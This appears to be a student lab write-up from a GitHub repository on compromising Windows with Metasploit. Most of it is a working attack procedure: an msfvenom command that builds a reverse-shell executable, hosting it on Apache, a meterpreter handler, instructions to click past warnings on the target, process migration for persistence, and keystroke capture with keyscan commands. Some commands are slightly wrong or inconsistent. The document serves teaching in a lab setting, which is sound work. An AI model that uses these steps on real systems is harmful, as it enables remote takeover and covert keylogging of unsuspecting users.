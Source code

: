 # Compromising-windows-using-Metasploit
Compromising windows using Metasploit
# Metasploit
Compromising windows using Metasploit

# AIM:

To Compromise windows using Metasploit .

## DESIGN STEPS:

### Step 1:

Install kali linux either in partition or virtual box or in live mode

### Step 2:

Investigate on the various categories of tools as follows:

### Step 3:

Open terminal and try execute some kali linux commands

## PROGRAM:

Find the attackers ip address using ifconfig

## OUTPUT:
![272766127-738403cb-ddf8-4e5f-af5b-50f6531673bc](https://github.com/Aakash0407/Compromising-windows-using-Metasploit/assets/118799103/717b44c9-2edc-4d46-bb50-ea5e876cdefe)

Create a malicious executable file fun.exe using msenom command
msfvenom -p windows/meterpreter/reverse_tcp LHOST=192.168.1.2 -f exe > fun.exe
## OUTPUT
![272766170-57c1fa09-ae80-401b-8422-41213b252aee](https://github.com/Aakash0407/Compromising-windows-using-Metasploit/assets/118799103/c6850938-33ef-40aa-b2c9-fd906a86756a)

copy the fun.exe into the apache /var/www/html folder
![272766196-379bf937-8d1d-47ca-9ca3-9dc95c1c0db5](https://github.com/Aakash0407/Compromising-windows-using-Metasploit/assets/118799103/bc4778de-e298-474f-b2c1-047de52053a8)

Start apache server
sudo systemctl apache2 start
![272766234-2a8aefe2-4668-467c-a3af-57a346f5d9da](https://github.com/Aakash0407/Compromising-windows-using-Metasploit/assets/118799103/8e51a702-2528-417e-8c0a-4df26fa61b97)

Check the status of apache2
![272766264-e9323521-d25e-4418-a86b-66c9d872a4dd](https://github.com/Aakash0407/Compromising-windows-using-Metasploit/assets/118799103/3c058ea9-f43c-4cb5-9204-360f6cd44238)

Invoke msfconsole:
## OUTPUT:

Type help or a question mark "?" to see the list of all available commands you can use inside msfconsole.

Starting a command and control Server
use multi/handler
set PAYLOAD windows/meterpreter/reverse_tcp
set LHOST 0.0.0.0
exploit
![272766362-08007393-8ae5-4095-a288-688b21b6654c](https://github.com/Aakash0407/Compromising-windows-using-Metasploit/assets/118799103/c77dbe89-7bd0-4112-8447-96e2c234bbe0)

On the target Windows machine, open a Web browser and open this URL, replacing the IP address with the IP address of your Kali machine:
http://192.168.1.2/fun.exe
The file "fun.exe" downloads. 
![272766389-a5afa68b-3991-4c94-a8d2-2f4c22bb656d](https://github.com/Aakash0407/Compromising-windows-using-Metasploit/assets/118799103/2778106b-9879-4dea-af31-2e67f7627a32)

Bypass any warning boxes, double-click the file, and allow it to run.

On kali give the command exploit
![272766409-6803b629-2f0b-46b6-a1b1-37333b5fa25e](https://github.com/Aakash0407/Compromising-windows-using-Metasploit/assets/118799103/29e25d04-ae83-45ad-a1c7-3441d6cc17f3)

To see a list of processes, at the meterpreter > prompt, execute this command:
ps  ⇒ can see the fun.exe process running with pid 1156

The Metasploit shell is running inside the "fun.exe" process. If the user closes that process, or logs off, the connection will be lost.
To become more persistent, we'll migrate to a process that will last longer.
Let's migrate to the winlogon process.
At the meterpreter > prompt, execute this command:

migrate -N explorer.exe
at meterpreter > prompt, execute this command:
netstat
A list of network connections appears, including one to a remote port of 4444, as highlighted in the image below.
Notice the "PID/Program name" value for this connection, which is redacted 
![272766448-c379f00d-1be8-4a25-8342-25ff9208cb8d](https://github.com/Aakash0407/Compromising-windows-using-Metasploit/assets/118799103/790504ad-7ac6-417f-9868-150576509d9a)

Post Exploitation The target is now owned. Following are meterpreter commands for key capturing in the target machine keyscan_start Begins capturing keys typed in the target. On the Windows target, open Notepad and type in some text, such as your name.
![272766484-b245228d-be3b-418f-8a4d-f0aeb3277dd1](https://github.com/Aakash0407/Compromising-windows-using-Metasploit/assets/118799103/908d7782-832c-4463-97f4-63ee630d5250)

keyscan_dump	Shows the keystrokes captured so far
![272766502-bd229a9d-ec46-4590-a561-d81cca631f57](https://github.com/Aakash0407/Compromising-windows-using-Metasploit/assets/118799103/97ab39db-3a8c-484e-a233-99537cca387a)

## RESULT:
The Metasploit framework is  used to compromise windows and is examined successfully.
